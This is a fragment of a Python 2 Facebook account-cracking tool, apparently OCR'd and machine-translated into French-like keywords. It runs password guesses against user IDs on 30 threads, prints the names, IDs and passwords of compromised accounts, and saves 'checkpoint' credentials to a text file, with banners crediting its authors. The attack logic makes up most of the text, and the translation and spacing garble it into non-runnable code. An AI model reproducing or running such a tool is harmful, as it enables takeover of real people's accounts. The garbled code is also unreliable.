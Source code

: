 				                                                                                               z = json.loads (x.text)
											                                       imprimer '\ x1b [1; 94m [✓] \ x1b [1; 92mHack100% 💉' '			
											                                       print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mNom \ x1b [1; 91m ✯ \ x1b [1; 92m' + b ['nom']			
											                                       print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mID \ x1b [1; 91m ✯ \ x1b [1; 92m' + utilisateur	
											                                       print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mMot de passe \ x1b [1; 91m✯ \ x1b [1; 92m' + passe9 + '\ n'			
											                                       oks.append (utilisateur + pass9)
                                                                                                                       autre:
			                                                                                                       si 'www.facebook.com' dans q ["error_msg"]:
				                                                                                                   imprimer '\ x1b [1; 94m [❥] \ x1b [1; 94mPoint de contrôle' '
				                                                                                                   print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mNom \ x1b [1; 94m ✯ \ x1b [1; 95m' + b ['nom']
				                                                                                                   print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mID \ x1b [1; 94m ✯ \ x1b [1; 95m' + utilisateur
				                                                                                                   print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mMot de passe \ x1b [1; 94m✯ \ x1b [1; 95m' + passe9 + '\ n'
				                                                                                                   cek = open ("out / super_cp.txt", "a")
				                                                                                                   cek.write ("ID:" + utilisateur + "Pw:" + pass9 + "\ n")
				                                                                                                   cek.close ()
				                                                                                                   cekpoint.append (utilisateur + pass9)		
											                                       
																	
															
		sauf:
			passer
		
	p = ThreadPool (30)
	p.map (principal, id)
	imprimer "\ 033 [1; 95m • ◈ • ▬ ▬ ▬ ▬ ▬ ▬ ▬ • ◈ • \ 033 [1; 91mYousufAlzadjali \ 033 [1; 95m • ◈ • ▬ ▬ ▬ ▬ ▬ ▬ ▬ • ◈ •"
	print "\ 033 [1; 91m« --- • ◈ • --- Développé par Yousuf Alzadjali - • ◈ • --- »" #Dev: Rana
	print '\ 033 [1; 93m✅Sara Process Complete Hogya Ha➡ Ctrl + Z.↩ Next Type (python2 Tiger.py) ↩ \ 033 [1; 97m ....'
	print "\ 033 [1; 91mTotal OK / \ x1b [1; 95mCP \ 033 [1; 93m: \ 033 [1; 91m" + str (len (oks)) + "\ 033 [1; 93m / \ 033 [ 1; 96m "+ str (len (cekpoint))
	impression """
 ____________¶¶¶1¶¶_________¶¶¶¶¶¶¶___________ 
_________ ¶¶¶111¶¶ ___________ ¶¶111¶¶¶¶ ________ 
______ ¶¶¶¶1111¶¶¶ ____________ ¶¶¶1111¶¶¶1 _____ 
_____ ¶¶¶1111¶¶¶¶ _____________ ¶¶¶¶11111¶¶¶ ____ 
___ ¶¶¶11¶1¶1¶¶¶¶ ___ ¶¶ ____ ¶¶__¶¶¶¶¶¶1¶1¶1¶¶¶1__ 
__¶¶¶11¶1¶11¶¶¶¶¶¶__¶¶¶¶¶¶¶¶__¶¶¶¶¶¶1¶1¶¶11¶¶1_ 
_¶¶¶11¶¶1¶11¶¶¶¶¶¶¶__¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶1¶¶1¶¶¶¶_ 
¶¶¶¶1¶¶11¶¶1¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶1¶¶¶¶ 
¶¶¶11¶¶11¶¶1¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶1¶¶¶1¶¶¶¶ 
¶¶¶1¶¶¶¶¶1¶¶¶1¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶11¶¶ 
_¶¶11¶¶¶1¶¶¶¶1¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶1¶¶¶¶¶1¶¶¶¶ 
_¶¶¶1¶¶¶¶¶1¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶1¶¶¶¶¶1¶¶¶¶¶¶¶¶¶¶¶¶¶1¶¶¶1 
__¶¶1¶¶¶¶¶¶¶¶¶__¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶__¶¶¶¶¶¶¶¶¶¶¶¶¶_ 
___¶¶1¶¶¶_¶¶_______¶¶¶¶¶¶¶¶______¶¶¶¶¶¶¶¶¶¶__ 
____ ¶¶¶¶ ____________ ¶¶¶¶¶¶ ___________ ¶¶¶¶ ____ 
______ ¶¶¶ __________ ¶¶¶__¶¶¶ __________ ¶¶ ______ 
_______ ¶¶¶ _________ ¶ ______ ¶ _________ ¶¶¶ ______
 
         ID de point de contrôle ouvert après 3 jours
• \ 033 [1; 95m◈ • ▬ ▬ ▬ ▬ ▬ ▬ ▬ • ◈ • ▬ ▬ ▬ ▬ ▬ ▬ ▬ • ◈ •.
: \ 033 [1; 91m .... Aahil Creations ....... \ 033 [1; 95m:
• \ 033 [1; 95m◈ • ▬ ▬ ▬ ▬ ▬ ▬ ▬ • ◈ • ▬ ▬ ▬ ▬ ▬ ▬ ▬ • ◈ •. ' 
                Facebook
              \ 033 [1; 91m Aahil "" "
	
	raw_input ("\ n \ 033 [1; 95m [\ 033 [1; 91mBack \ 033 [1; 95m]")
	menu()

si __name__ == '__main__':
	s'identifier()
